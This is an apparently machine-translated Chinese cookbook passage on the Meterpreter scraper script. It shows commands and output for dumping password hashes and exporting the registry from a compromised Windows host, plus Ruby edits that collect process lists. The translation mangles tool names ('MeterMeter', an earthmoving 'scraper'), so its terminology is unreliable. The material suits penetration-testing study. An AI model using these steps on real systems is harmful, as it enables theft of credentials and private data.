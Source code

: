 # 使用刮板MeterMeter脚本

到目前为止，我们了解了几个 MeterMeter 命令。在这里，我们将看一看一个重要的 MeterMeter 脚本，它可以帮助我们更深入地探索我们的目标。下一章将详细介绍 MeterMeter 脚本，因此这里我们将重点介绍如何使用该脚本。在渗透测试期间，您可能需要很多时间来挖掘目标的信息。因此，对于渗透测试人员来说，有一个有用信息的本地备份非常方便，这样即使目标失败，他们仍然有信息要处理。它还使得与其他测试人员共享信息变得容易。铲运机为我们完成了这项任务。

## 准备好了吗

scraper meterpeter 脚本可以挖掘出大量关于受害目标的信息，例如注册表信息、密码哈希和网络信息，并将其本地存储在测试人员的机器上。

为了使用 MeterMeter 在目标上执行 Ruby 脚本，我们可以使用 `run`命令。执行 `run scraper -h`命令将列出我们可以通过脚本传递的各种可用参数。让我们继续分析如何在本地下载信息。

## 怎么做。。。

脚本在执行后会自动执行所有操作。它在 `/root/.msf4/logs/scripts/scraper`下创建一个目录，保存所有文件。您可能会在脚本执行过程中注意到一个错误，这可能是因为命令可能无法在目标上执行（命令行输出已被缩短以适应）：

```
meterpreter > run scraper
[*] New session on 192.168.56.1:4232...
[*] Gathering basic system information...
[*] Error dumping hashes: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\Users\DARKLORD\AppData\Local\Temp\UKWKdpIb.reg) 
```

脚本会自动下载信息并将其保存在目标文件夹中。让我们看一下源代码，以分析是否可以根据需要进行一些更改。

## 它是如何工作的。。。

`scraper.rb`的源代码在 `/pentest/exploits/framework3/scripts/meterpreter`下。

Ruby 编码经验可以帮助您编辑脚本以添加自己的功能。我们可以通过编辑以下行更改下载位置：

```
logs = ::File.join(Msf::Config.log_directory, 'scripts','scraper', host + "_" + Time.now.strftime("%Y%m%d.%M%S")+sprintf("%.5d",rand(100000)) ) 
```

假设您也想获得可用进程列表的结果，那么您只需在程序主体中添加以下代码行：

```
::File.open(File.join(logs, "process.txt"), "w") do |fd|
fd.puts(m_exec(client, "tasklist"))
end 
```

通过使用一点 Ruby 语言和代码重用，您可以轻松地根据需要修改代码。

## 还有更多。。。

让我们了解另一个 MeterMeter 脚本，该脚本可用于从目标机器收集信息。

### 使用 winenum.rb

`winenum.rb`是另一个 MeterMeter 脚本，可以帮助您收集有关目标的信息并在本地下载。其工作原理与 `scraper.rb`类似。您也可以尝试此脚本，看看它可以提供哪些额外信息。脚本可在以下位置找到：

`/pentest/exploits/framework3/scripts/meterpreter/winenum.rb`
